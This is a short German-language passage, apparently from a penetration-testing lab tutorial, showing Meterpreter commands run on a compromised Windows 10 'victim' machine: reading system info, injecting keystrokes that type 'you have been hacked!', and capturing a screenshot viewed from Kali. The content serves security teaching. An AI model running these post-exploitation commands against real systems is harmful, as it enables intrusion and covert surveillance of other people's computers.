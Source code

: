 ```
meterpreter > sysinfo 
Computer        : DESKTOP-KB6QKG7
OS              : Windows 10 (10.0 Build 19043).
Architecture    : x64
System Language : de_DE
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```

Text aufs Opfersystem schicken (simuliert **Tastendrücke**) – notepad öffnen:

```
meterpreter > keyboard_send "you have been hacked!"
[*] Done
```

Einen **Screenshot** vom Opfersystem erstellen:

```
meterpreter > screenshot
Screenshot saved to: /root/QMnwJkYX.jpeg
```

Im Browser (Kali) öffnen: `http://localhost:8080/QMnwJkYX.jpeg`


